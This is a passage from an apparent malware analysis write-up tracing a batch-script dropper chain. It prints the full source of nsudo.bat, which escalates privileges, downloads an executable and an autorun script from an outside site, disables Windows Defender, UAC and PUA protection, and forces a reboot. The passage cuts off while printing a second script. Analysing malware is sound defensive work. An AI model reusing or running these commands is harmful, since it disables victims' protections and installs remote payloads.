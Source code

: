 So tim.bat will download 2 files:
{% highlight ruby %}
123.ps1
nsudo.bat
{% endhighlight %}


The latter, nsudo.bat is still available on the site.

nsudo.bat's content:
{% highlight ruby %}
@echo off
title Installing Packages 
:: BatchGotAdmin
::-------------------------------------
REM  --> Check for permission
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

REM --> If error flag set, we do not have admin.
if '%errorlevel%' NEQ '0' (
    echo Requesting administrative privileges....
    goto UACPrompt
) else ( goto gotAdmin )

:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params = %*:"="
    echo UAC.ShellExecute "cmd.exe", "/c %~s0 %params%", "", "runas", 1 >> "%temp%\getadmin.vbs"

    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B


:gotAdmin


powershell Invoke-WebRequest https://pornofilmspremium.com/javase.exe -OutFile javase.exe
set pop=%systemroot%
javase -U:T reg add "HKLM\Software\Policies\Microsoft\Windows Defender\UX Configuration"  /v "Notification_Suppress" /t REG_DWORD /d "1" /f
javase -U:T sc config WinDefend start= disabled
cd "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
powershell Invoke-WebRequest https://pornofilmspremium.com/autorun100.bat -OutFile autorun100.bat
powershell.exe New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force
powershell.exe -command "Set-MpPreference -PUAProtection disable"
shutdown.exe /r /f /t 00
{% endhighlight %}

The script therefore yet again reaches out to the same website it originates from and after disabling UAC controls, Defender, modifies the  HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system registry, and runs several further .bat scripts and initiates a restart for the changes to take place.

Autorun.bat's content:
{% highlight ruby %}
@echo off
title Installing Packages 
:: BatchGotAdmin
::-------------------------------------
REM  --> Check for permission
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

REM --> If error flag set, we do not have admin.
if '%errorlevel%' NEQ '0' (
    echo Requesting administrative privileges....
    goto UACPrompt
) else ( goto gotAdmin )
